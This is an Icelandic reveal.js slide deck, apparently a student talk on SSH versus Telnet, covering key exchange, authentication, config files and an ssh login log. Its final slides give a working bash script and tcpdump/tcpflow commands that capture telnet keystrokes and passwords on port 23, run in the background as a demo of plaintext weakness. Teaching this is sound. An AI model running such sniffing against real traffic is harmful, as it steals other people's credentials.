




<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="utf-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0, maximum-scale=1.0, user-scalable=no" />

    <title>reveal-md</title>
    <link rel="stylesheet" href="./css/reveal.css" />
    <link rel="stylesheet" href="./css/theme/black.css" id="theme" />
    <link rel="stylesheet" href="./css/highlight/zenburn.css" />
    <link rel="stylesheet" href="./css/print/paper.css" type="text/css" media="print" />

  </head>
  <body>
    <div class="reveal">
      <div class="slides"><section  data-markdown><script type="text/template"># SSH
## Secure shell

Hjalti Geir Garðarsson

Guðmundur Óli Norland

Teitur Guðmundsson
</script></section><section  data-markdown><script type="text/template">
# SSH
## Secure Shell 
Hin örugga skel</script></section><section  data-markdown><script type="text/template">### Telnet
### 1969

</script></section><section  data-markdown><script type="text/template"></script></section><section  data-markdown><script type="text/template"></script></section><section  data-markdown><script type="text/template"></script></section><section  data-markdown><script type="text/template">### Tatu Ylönen
### 1995
### SSH-1
### Teknillinen korkeakoulu
### Password sniffing</script></section><section  data-markdown><script type="text/template">#### rlogin
#### Telnet
#### FTP
#### rsh</script></section><section  data-markdown><script type="text/template"></script></section><section  data-markdown><script type="text/template">### Það sem SSH lofar
  * Strong encryption
  * Strong authentication
  * Authorization
  * Integrity of communication
  * Forwarding or tunneling</script></section><section  data-markdown><script type="text/template">### Það sem SSH getur ekki lofað
   * Vondar stillingar
   * Spilltur root aðgangur
   * Óöruggar heimamöppur</script></section><section  data-markdown><script type="text/template">```
~ ssh -v teg6@hekla.rhi.hi.is
OpenSSH_8.0p1, OpenSSL 1.0.2t  10 Sep 2019
debug1: Reading configuration data /etc/ssh/ssh_config
debug1: Connecting to hekla.rhi.hi.is [130.208.165.2] port 22.
debug1: Connection established.
debug1: identity file /home/teytur/.ssh/id_rsa type 0
debug1: identity file /home/teytur/.ssh/id_rsa-cert type -1
debug1: identity file /home/teytur/.ssh/id_dsa type -1
debug1: identity file /home/teytur/.ssh/id_dsa-cert type -1
debug1: identity file /home/teytur/.ssh/id_ecdsa type -1
debug1: identity file /home/teytur/.ssh/id_ecdsa-cert type -1
debug1: identity file /home/teytur/.ssh/id_ed25519 type -1
debug1: identity file /home/teytur/.ssh/id_ed25519-cert type -1
debug1: identity file /home/teytur/.ssh/id_xmss type -1
debug1: identity file /home/teytur/.ssh/id_xmss-cert type -1
debug1: Local version string SSH-2.0-OpenSSH_8.0
debug1: Remote protocol version 2.0, remote software version OpenSSH_5.3
debug1: match: OpenSSH_5.3 pat OpenSSH_5* compat 0x0c000002
debug1: Authenticating to hekla.rhi.hi.is:22 as 'teg6'
debug1: SSH2_MSG_KEXINIT sent
debug1: SSH2_MSG_KEXINIT received
debug1: kex: algorithm: diffie-hellman-group-exchange-sha256
debug1: kex: host key algorithm: ssh-rsa
debug1: kex: server->client cipher: aes128-ctr MAC: umac-64@openssh.com compression: none
debug1: kex: client->server cipher: aes128-ctr MAC: umac-64@openssh.com compression: none
debug1: SSH2_MSG_KEX_DH_GEX_REQUEST(2048<3072<8192) sent
debug1: got SSH2_MSG_KEX_DH_GEX_GROUP
debug1: SSH2_MSG_KEX_DH_GEX_INIT sent
debug1: got SSH2_MSG_KEX_DH_GEX_REPLY
debug1: Server host key: ssh-rsa SHA256:4jlEv000KCUwqreId0hqmCsGyQljTGO1qWnWC20TdGs
debug1: Host 'hekla.rhi.hi.is' is known and matches the RSA host key.
debug1: Found key in /home/teytur/.ssh/known_hosts:5
debug1: rekey out after 4294967296 blocks
debug1: SSH2_MSG_NEWKEYS sent
debug1: expecting SSH2_MSG_NEWKEYS
debug1: SSH2_MSG_NEWKEYS received
debug1: rekey in after 4294967296 blocks
debug1: Will attempt key: /home/teytur/.ssh/id_rsa RSA SHA256:Sv9fy0mW9SO7LxWqe5mr8UxSzx2jT6qo2zci7vAo1I8 agent
debug1: Will attempt key: /home/teytur/.ssh/id_dsa 
debug1: Will attempt key: /home/teytur/.ssh/id_ecdsa 
debug1: Will attempt key: /home/teytur/.ssh/id_ed25519 
debug1: Will attempt key: /home/teytur/.ssh/id_xmss 
debug1: SSH2_MSG_SERVICE_ACCEPT received
debug1: Authentications that can continue: publickey,gssapi-keyex,gssapi-with-mic,password
debug1: Next authentication method: publickey
debug1: Offering public key: /home/teytur/.ssh/id_rsa RSA SHA256:Sv9fy0mW9SO7LxWqe5mr8UxSzx2jT6qo2zci7vAo1I8 agent
debug1: Authentications that can continue: publickey,gssapi-keyex,gssapi-with-mic,password
debug1: Trying private key: /home/teytur/.ssh/id_dsa
debug1: Trying private key: /home/teytur/.ssh/id_ecdsa
debug1: Trying private key: /home/teytur/.ssh/id_ed25519
debug1: Trying private key: /home/teytur/.ssh/id_xmss
debug1: Next authentication method: password
teg6@hekla.rhi.hi.is's password: 
debug1: Authentication succeeded (password).
Authenticated to hekla.rhi.hi.is ([130.208.165.2]:22).
debug1: channel 0: new [client-session]
debug1: Requesting no-more-sessions@openssh.com
debug1: Entering interactive session.
debug1: pledge: network
Last login: Wed Oct 23 22:29:41 2019 from l46a-510.gardur.hi.is
+------------------------------------------------------------------------------+
|                                                                              |
|       Thu ert ad tengjast Heklu (hekla.rhi.hi.is) fjolnotendavel RHI.        |
|       Fyrir alla nemendur og starfsmenn Haskola Islands.                     |
|       Leidbeiningar: http://rhi.hi.is/fjolnotendatolvur                      |
|                                                                              |
|       You are connecting Hekla (hekla.rhi.hi.is) for all students and        |
|       staff of the University of Iceland.                                    |
|       Instructions: http://rhi.hi.is/multi_user_computers                    |
|                                                                              |
+------------------------------------------------------------------------------+

Styrikerfi: GNU/Linux
CentOS release 6.10 (Final)

Fjoldi tengdra notenda: 9
-bash-4.1$ 

```</script></section><section  data-markdown><script type="text/template">
# Dulkóðun
</script></section><section  data-markdown><script type="text/template">
#### Tenging á milli biðlara og vefþjóns með SSH


</script></section><section  data-markdown><script type="text/template">
### Þrjú skref:

1. Biðlarinn auðkennir þjóninn.

2. Búinn til lotulykill (session key) til að dulkóða og afkóða skilaboð.

3. Þjónninn auðkennir biðlarann.
</script></section><section ><section data-markdown><script type="text/template">
#### Skref 1 (biðlarinn auðkennir þjóninn)

* Ef biðlarinn er að tengjast þjóninum í fyrsta skiptið er hann beðinn um að auðkenna lykilinn handvirkt.

* Ef biðlarinn samþykkir er lyklinum bætt við í *~/.ssh/known_hosts* skránna.
</script></section><section data-markdown><script type="text/template">

</script></section><section data-markdown><script type="text/template">
* Gert til að muna hvaða þjónum biðlarinn hefur tengst áður. 

* Verst t.d. DNS árásum.

* Ef biðlarinn þekkir ekki lykilinn fær hann kærkomna villumeldingu.
</script></section></section><section ><section data-markdown><script type="text/template">
#### Skref 2 (lotulykill)

* lotulykil nauðsynlegur til að dulkóða og afkóða skilaboð.

* Samhverfir (symmetric) lyklaalgoriðmar nota einn lykil til að dulkóða og afkóða, ósamhverfir (asymmetric) tvo.

* Diffie-Helmann mjög algengur ósamhverfur algoriðmi.

* Notum Diffie-Helmann til að búa til sameiginlegt, samhverft leyndarmál á milli biðlara og þjóns.
</script></section><section data-markdown><script type="text/template">
#### Einfalt litadæmi


</script></section><section data-markdown><script type="text/template">

</script></section><section data-markdown><script type="text/template">

</script></section><section data-markdown><script type="text/template">

</script></section></section><section ><section data-markdown><script type="text/template">
#### Skref 3 (þjónninn auðkennir biðlarann)

* Einfaldasta aðferðin að nota lykilorð. 

* Ekki mælt með vegna takmarkana á flækjustigi lykilorða.

* Mælt með að nota SSH lyklapör.
</script></section><section data-markdown><script type="text/template">

</script></section><section data-markdown><script type="text/template">

</script></section><section data-markdown><script type="text/template">

</script></section><section data-markdown><script type="text/template">
#### Ósamhverfir lyklaalgorðmar

Án þess að vita neina stærðfræði á bakvið lyklaalgoriðma þurfum við að treysta þessu tvennu um ósamhverfa lyklaalgoriðma:
</script></section><section data-markdown><script type="text/template">
1. Öll skilaboð sem eru dulkóðuð með lyklinum hjá aðila geta einungis verið afkóðuð með einkalykli aðilans.

2. Aðili með aðgang að almenna lyklinum hjá aðila getur staðfest ef skilaboð voru send af einhverjum með aðgang að einkalykli aðilans.
</script></section><section data-markdown><script type="text/template">
### Auðkennisskref

1. Biðlarinn sendir auðkennisskilaboð um hvaða lyklapar hann vill nota til að tengjast við þjóninn.

2. Þjónninn skoðar authorized_keys skránna, ef hann finnur almennan lykil fyrir þetta auðkenni þá sendir þjónninn skilaboð til biðlarans, dulkóðuð með lyklinum.
</script></section><section data-markdown><script type="text/template">
3. Skilaboðin geta einungis verið afkóðuð með samsvarandi einkalykli, ef biðlarinn er með hann afkóðar hann skilaboðin.

4. Biðlarinn sendir skilaboð til þjónsins, dulkóðuð með nýafkóðuðu skilaboðunum sem og lotulyklinum.

5. Þjónninn framkvæmir sömu dulkóðunina og ber saman við gildið frá biðlaranum, ef gildin stemma sannar það að biðlarinn er með einkalykilinn og er því auðkenndur.
</script></section></section><section  data-markdown><script type="text/template">
## SSH server 
### vs 
## Telnet server
</script></section><section ><section data-markdown><script type="text/template">
## ssh server

```console
openssh-server
```

* `sshd` - OpenSSH SSH daemon
</script></section><section data-markdown><script type="text/template">
## SSH config

```
/etc/ssh/sshd_config
```

```config
PasswordAuthentication no
```
</script></section><section data-markdown><script type="text/template">



</script></section><section data-markdown><script type="text/template">
## ssh client

```
~/.ssh/config
```

```conf
Host jotunn.rhi.hi.is
  IdentityFile ~/.ssh/jotunn_hpc
Host hekla.rhi.hi.is
  IdentityFile ~/.ssh/hekla
Host github.com
  HostName github.com
  IdentityFile ~/.ssh/git_hub
  User git
HOST localhost
  IdentityFile ~/.ssh/local
```
</script></section></section><section ><section data-markdown><script type="text/template">
## Telnet server

```console
xinetd
telnetd
```

* `xinetd` - the extended Internet services daemon

* `telnetd` - DARPA telnet protocol server
</script></section><section data-markdown><script type="text/template">
```
/etc/xinetd.d/telnet
```

```conf
# default: on
# description: The telnet server serves telnet sessions; it uses
# unencrypted username/password pairs for authentication.
service telnet
{
  disable = no
  socket_type = stream
  wait = no
  user = root
  server = /usr/sbin/in.telnetd
  log_on_failure += USERID
}
```
</script></section><section data-markdown><script type="text/template">

</script></section></section><section  data-markdown><script type="text/template">

</script></section><section ><section data-markdown><script type="text/template">
## Man-in-the-middle attacks

Nota þessa tvo *packet-analyzer*/*packet-sniffer*
* tcpdump
* tcpflow
</script></section><section data-markdown><script type="text/template">
## ssh


</script></section><section data-markdown><script type="text/template">
## telnet


</script></section><section data-markdown><script type="text/template">
## Password og keylogger




</script></section></section><section  data-markdown><script type="text/template">
## Skriptu keylogger

```bash
#!/bin/bash
  
# Uses tcpdump to extract keystrokes from a telnet session
# on localhost port 23 and tcpflow to format output

# Check if user is running as root
if [[ $EUID -ne 0 ]]; then
    echo "Please run as root:"
    echo "sudo $0"
    exit 1
fi

# Output file
keylog=$PWD/keylogs

# Log keystrokes to port 23
sudo tcpdump 'tcp dst port 23 and tcp[13] & 8 != 0' -i lo -l -w - | tcpflow -C -r - >> $keylog
```

```
sudo ./telnet_keylogger.sh & disown
```
</script></section><section ><section data-markdown><script type="text/template">
## Skipanir

Keylogger + **stdout**
```
sudo tcpdump 'tcp src port 23 and tcp[13] & 8 != 0' -i lo -l -w - | tcpflow -C -r -
```

Keylogger
```
sudo tcpdump 'tcp dst port 23 and tcp[13] & 8 != 0' -i lo -l -w - | tcpflow -C -r -
```
</script></section><section data-markdown><script type="text/template">
* <span style="color:blue">`tcpdump`</span>
  * Forrit til að fylgjast með umferð á *network*
* <span style="color:blue">`tcp dst port 23`</span>
  * Hlustum á allt sem er sent á port 23
* <span style="color:blue">`tcp[13] & 8 != 0`</span>
  * Síum þannig að **psh** pakkar eru skoðaðir
* <span style="color:blue">`-i lo`</span>
  * Við hlustum á localhost
* <span style="color:blue">`-l`</span>
  * Buffer á **stdout**
* <span style="color:blue">`-w -`</span>
  * Prentum beint út í **stdout**
</script></section><section data-markdown><script type="text/template">
* <span style="color:blue">`tcpflow`</span>
  * Forrit til að fylgjast með umferð á *network*
* <span style="color:blue">`-C`</span>
  * Prentar út í **stdout** án tcp header
* <span style="color:blue">`-r`</span>
  * Les út úr **stdout**, parað með `-w`
----</script></section></section></div>
    </div>

    <script src="./js/reveal.js"></script>

    <script>
      function extend() {
        var target = {};
        for (var i = 0; i < arguments.length; i++) {
          var source = arguments[i];
          for (var key in source) {
            if (source.hasOwnProperty(key)) {
              target[key] = source[key];
            }
          }
        }
        return target;
      }

      // Optional libraries used to extend on reveal.js
      var deps = [
        { src: './plugin/markdown/marked.js', condition: function() { return !!document.querySelector('[data-markdown]'); } },
        { src: './plugin/markdown/markdown.js', condition: function() { return !!document.querySelector('[data-markdown]'); } },
        { src: './plugin/highlight/highlight.js', async: true, callback: function() { hljs.initHighlightingOnLoad(); } },
        { src: './plugin/zoom-js/zoom.js', async: true },
        { src: './plugin/notes/notes.js', async: true },
        { src: './plugin/math/math.js', async: true }
      ];

      // default options to init reveal.js
      var defaultOptions = {
        controls: true,
        progress: true,
        history: true,
        center: true,
        transition: 'default', // none/fade/slide/convex/concave/zoom
        dependencies: deps
      };

      // options from URL query string
      var queryOptions = Reveal.getQueryHash() || {};

      var options = extend(defaultOptions, {}, queryOptions);
    </script>


    <script>
      Reveal.initialize(options);
    </script>
  </body>
</html>
